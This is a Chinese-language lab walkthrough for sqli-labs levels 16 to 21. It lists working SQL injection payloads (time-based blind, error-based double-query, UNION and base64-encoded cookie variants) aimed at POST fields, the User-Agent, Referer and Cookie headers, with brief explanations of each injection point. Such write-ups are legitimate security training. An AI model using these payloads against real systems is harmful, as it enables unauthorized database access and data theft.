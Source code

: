 ### lv.16

`POST: a") or 1=1 and not (select sleep(0.1)) -- `

和lv15一样，只不过换成双引号加了个闭合的括号。耐心啊朋友！

### lv.17

`POST: passwd=d' or (select 1 from (select count(*),concat(floor(rand(0)*2),(select database())) as a from information_schema.tables group by a ) as b) -- `

简单猜的语句是`update users set password = $passwd where username = $uname ;`，但是没想到对username做了过滤。

看了源码发现是基于报错，所以就不用说了，能执行的地方就都可以注入，另外可以试一下延时注入，应该也可以。

### lv.18

`User-Agent :asd','ad',(select 1 from (select count(*),concat(floor(rand(0)*2),(select database())) as a from information_schema.tables group by a) as b ) ) --  d` 

利用注入insert语句，根据双查询注入的报错得到数据库信息。说到底还就是个闭合然后利用报错的注入，只不过位置在header里面罢了。

原插入语句如下：

`$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";`

### lv.19

`Referer:http://192.168.145.129:8888/Less-19/d',(select group_concat(schema_name) from information_schema.schemata where if((select database())='security',sleep(1),9)=0)) -- d`

和上面的lv.18一模一样，只不过换成了referer而已，这里采用非预期的延时注入，效果还是一样的。

18和19的关键点在于，如果没有提示，是否能自己找到header中的注入点。

### lv.20

`Cookie=uname=admind' union select 1,2,group_concat(schema_name) from information_schema.schemata -- d`

注入点又换到了cookie中，没别的，查询结果直接在页面返回了，直接union就可以。另外报错也有返回，可以尝试基于报错的注入。

复习其他方法：

`uname=admind' or 1=1 and 101=ascii(substring((select database()),2,1)) limit 1 -- d`

`uname=admind' union select 1,2,3 from (select count(*),concat(floor(rand(0)*2),(select database())) as a from information_schema.tables group by a  ) as b -- d`

`uname=admind' or 1=1 and if((select database())='security',benchmark(111000000,sha(1)),0)=0 limit 1 -- d`

### lv.21

`uname=YWRtaW5kJykgdW5pb24gc2VsZWN0IDEsMixncm91cF9jb25jYXQoc2NoZW1hX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnNjaGVtYXRhIC0tIGRg`
